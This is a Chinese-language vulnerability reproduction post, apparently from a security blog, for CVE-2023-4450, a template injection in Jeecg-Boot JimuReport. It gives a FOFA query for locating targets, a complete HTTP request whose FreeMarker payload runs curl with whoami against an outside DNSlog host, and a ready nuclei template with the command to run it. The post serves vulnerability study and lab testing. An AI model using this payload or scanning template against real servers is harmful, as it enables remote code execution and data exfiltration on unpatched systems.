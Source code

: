#  CVE-2023-4450   
原创 fgz  AI与网安   2024-02-13 12:20  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
**该漏洞已被黑客武器化，用于大规模蠕虫传播、勒索挖矿。但nuclei官方还没有提供POC。**  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Jeecg-Boot JimuReport queryFieldBySql 模板注入漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
JimuReport < 1.6.1  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
JimuReport采用纯Web在线技术，支持多种数据源，如Oracle, MySQL, SQLServer, PostgreSQL等主流的数据库。2023年互联网上披露其存在模板注入漏洞，攻击者可构造恶意请求触发模板注入，造成远程代码执行。2023年8月15日，官方发布更新修复相关漏洞。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="Jeecg-Boot"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPQXgIgJSc5hJt5qvJgFemSP9t1mfTVzpFjMHFfQGzu22QOmgfB6xmDLh1NjYYziaqoiav8AyDfjbMA/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
靶场搭建  
  
  
下载或更新vulhub源码  
```
https://github.com/vulhub/vulhub
```  
  
将代码上传到靶场虚拟机，并解压  
```
unzip vulhub.zip
```  
  
然后进入漏洞目录  
```
cd vulhub/jeecg-boot/CVE-2023-4450
```  
  
启动靶场镜像  
```
docker compose up -d
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPQXgIgJSc5hJt5qvJgFemSwLOQ1gCkGmdZa98J9oZaMLsicxZdKWDoamxGZMLEpdQMm0bFnDU4zLw/640?wx_fmt=png&from=appmsg "")  
  
容器启动完成之后能看到有总共有三个容器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPQXgIgJSc5hJt5qvJgFemS0SYNqfPlia9cia86NcIVIBD6tBm3KaSc6HqX5CIgykdsSq3n0xALZwyg/640?wx_fmt=png&from=appmsg "")  
  
在服务启动后，可访问如下路径  
查看JimuReport页面。  
```
http://192.168.40.130:8080/jeecg-boot/jmreport/list
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPQXgIgJSc5hJt5qvJgFemSdQCkuWzibH8RzLJxjBWUNOR2MdIUPNxTHeiaWNbFt0gBjXryHfRdibgNw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
06  
  
—  
  
漏洞复现  
  
  
这个漏洞没有回显，利用DNSlog复现，先注册一个账户http://dnslog.pw/dns  
  
然后复制payload到下面数据包中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPQXgIgJSc5hJt5qvJgFemSPDdvibj8ug1sfcY62gbWUYW37dPVfuXjcoznxMdMD1uxiahpHcBv4ruA/640?wx_fmt=png&from=appmsg "")  
  
最终向靶场发送如下数据包  
```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 192.168.40.130:8080
User-Agent: curl/7.88.1
Content-Length: 156
Accept: */*
Connection: close
Content-Type: application/json
Accept-Encoding: gzip

{
  "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"curl http://ip.port.kr9dqoau.dnslog.pw/`whoami\")}",
  "type": "0"
}
```  
  
DNSlog看到访问记录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPQXgIgJSc5hJt5qvJgFemS9pneicknk3yhq1j51dD2QlicaQMgTDNbH7zqW0sicLnby14hQHuutM4Hw/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
  
07  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2023-4450

info:
  name: Jeecg-Boot JimuReport queryFieldBySql 模板注入漏洞
  author: fgz
  severity: critical
  description: JimuReport采用纯Web在线技术，支持多种数据源，如Oracle, MySQL, SQLServer, PostgreSQL等主流的数据库。2023年互联网上披露其存在模板注入漏洞，攻击者可构造恶意请求触发模板注入，造成远程代码执行。
  metadata:
    max-request: 1
    fofa-query: title="Jeecg-Boot"
    verified: true
requests:
  - raw:
      - |+
        POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
        Host: {{Hostname}}
        User-Agent: curl/7.88.1
        Accept: */*
        Content-Type: application/json
        Content-Length: 121
        Connection: close
        
        {
          "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"curl {{interactsh-url}}\")}",
          "type": "0"
        }
        
    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2023-4450.yaml -u http://192.168.40.130:8080/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPQXgIgJSc5hJt5qvJgFemSvBZs7qYic003BR1PURHn0kC0V4nAGAopp52H0TCTOianF9WlGHKzTeLA/640?wx_fmt=png&from=appmsg "")  
  
  
  
08  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
  

